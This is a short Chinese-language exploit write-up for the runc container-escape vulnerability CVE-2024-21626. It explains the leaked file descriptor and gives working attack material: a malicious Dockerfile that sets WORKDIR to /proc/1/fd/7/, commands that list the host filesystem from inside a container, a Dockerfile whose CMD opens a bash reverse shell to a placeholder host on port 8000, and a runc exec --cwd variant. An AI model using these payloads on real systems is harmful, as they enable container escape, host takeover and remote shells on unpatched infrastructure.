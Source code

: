# CVE-2024-21626 利用场景



## 影响组件

runc是一个根据OCI规范，在Linux上生成和运行容器的命令行工具。runc的使用非常灵活，可以与各种容器工具和平台集成，如Docker、Kubernetes等。它支持多种容器格式，包括OCI规范定义的标准格式，以及其他格式如Docker镜像格式。作为开源项目，runc受到全球开发者社区的广泛参与和贡献，被广泛应用于生产环境中的容器化部署。





## 漏洞描述

近日，奇安信CERT监测到runc官方发布安全通告修复了**runc容器逃逸漏洞(CVE-2024-21626)**，由于runc存在内部文件描述符泄露，本地攻击者可以通过多种方式进行容器逃逸：

1、由于runc 内部意外地将包括宿主机 /sys/fs/cgroup 句柄的几个文件描述符泄漏到 runc init 中，攻击欺骗具有特权的用户执行恶意容器镜像，可以导致pid1 进程将在宿主机挂载命名空间中拥有一个工作目录，生成的进程可以访问整个宿主文件系统。

2、由于runc exec中同样存在文件描述符泄漏和工作目录验证不足。如果容器内的恶意进程知道某个管理进程将使用 --cwd 参数和给定路径调用 runc exec，便可以用符号链接将该路径替换为 /proc/self/fd/7/ 。一旦容器进程执行了容器镜像中的可执行文件，可以绕过PR_SET_DUMPABLE 保护，之后攻击者可以通过打开 /proc/$exec_pid/cwd 来访问主机文件系统。

3、可以通过将类似/proc/self/fd/7/../../../bin/bash的路径用作 process.args 二进制参数来覆盖主机二进制文件来改进攻击1、2。由于可以覆盖类似 /bin/bash的二进制文件，一旦特权用户在主机上执行目标二进制文件，攻击者就可以进行转移，以完全访问主机。



## 恶意Dockerfile

```dockerfile
FROM ubuntu:18.04
WORKDIR /proc/1/fd/7/
```

## 构建Dockerfile

```bash
docker build .
docker run dockerid ls   ../../../
```

## 反弹shell

对于业务来说，给一个上面的恶意镜像

然后可以加一个CMD 反弹shell

```dockerfile
FROM ubuntu:18.04
WORKDIR /proc/1/fd/7/
CMD /bin/bash -c 'bash -i >&/dev/tcp/ip/8000 0>&1'
```

## 控制WROKERDIR 

```bash
runc exec --cwd /proc/1/fd/7/ demo ls ../../../../
```

有些产品可以指定 WROKERDIR 也就是 cwd 那么也受影响,可以关注一下启动时候的参数 能不能控制WROKERDIR 

